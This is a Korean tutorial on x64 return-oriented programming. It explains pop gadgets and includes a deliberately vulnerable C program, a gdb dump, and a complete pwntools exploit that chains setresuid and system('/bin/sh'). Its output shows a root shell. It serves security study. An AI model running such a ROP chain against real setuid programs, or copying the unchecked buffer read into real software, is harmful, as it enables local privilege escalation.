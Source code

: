 # **x64 Return Oriented Programming**

ROP를 통해 메모리 영역 할당(mmap)하거나 할당된 메모리 영역의 권한을 변경(mprotect)하여 공격하는 방법.  

x64의 경우 호출 규약 때문에 피연산자가 매우 중요함.  

x64의 ROP에서 POP 명령의 역할  
1. ESP의 레지스터 값을 증가시켜 함수를 연속적으로 호출
1. 호출할 함수에 전달될 인자 값을 레지스터에 저장

Ex)  
* 호출할 함수의 1 번째 인자 값 저장: "pop rdi; ret"  
* 호출할 함수의 2 번째 인자 값 저장: "pop rsi; ret"  
* 호출할 함수의 1,3 번째 인자 값 저장: "pop rdi; pop rdx; ret"

## **Proof of Concept**

```c
// Vuln Code
// gcc rop.c -o rop -ldl -fno-stack-protector 
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>
#include <dlfcn.h>
 
void vuln(){
    char buf[50];
    void (*printf_addr)() = dlsym(RTLD_NEXT, "printf");
    printf("Printf() address : %p\n",printf_addr);
    read(0, buf, 256);
}
 
void main(){
    seteuid(getuid());
    write(1,"Hello ROP\n",10);
    vuln();
}
```

* "A"*72 입력 시 Overflow 발생.

```
gdb-peda$ x/24gx $rbp
0x7fffffffe3c0:	0x4141414141414141	0x000000000040070a
0x7fffffffe3d0:	0x00000000004007e0	0x00007ffff7829830
0x7fffffffe3e0:	0x0000000000000000	0x00007fffffffe4b8
```

## **Exploit Code**
```python
# Exploit Code
import sys
from pwn import *

p = process('./rop')
#gdb.attach(p)
print(p.recvline())
printf_addr = int(p.recvline().split(' ')[3],16)
print('printf_addr: '+str(printf_addr))

libBase = printf_addr - 0x55800
system = libBase + 0x45390
setresuid = libBase + 0xcd570
binsh = libBase + 0x18cd57
pop_rdi_ret = 0x00400843
pop_rsi_ret = 0x00400841
pop_rdx_pop_rsi_ret_offset = 0x1150c9

payload = "A"*72
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(libBase + pop_rdx_pop_rsi_ret_offset)
payload += p64(0)
payload += p64(0)
payload += p64(setresuid)
payload += p64(pop_rdi_ret)
payload += p64(binsh)
payload += p64(system)

p.sendline(payload)
p.interactive()
```

## **Exploit**
```shell
pwner@bs-virtual-machine:~$ python exploit.py 
[+] Starting local process './rop': pid 3166
Hello ROP

printf_addr: 140605686425600
[*] Switching to interactive mode
$ id
uid=0(root) gid=1001(pwner) groups=1001(pwner)
```

**Refereces**  
<https://lazenca.net/display/TEC/02.ROP%28Return+Oriented+Programming%29-x64>

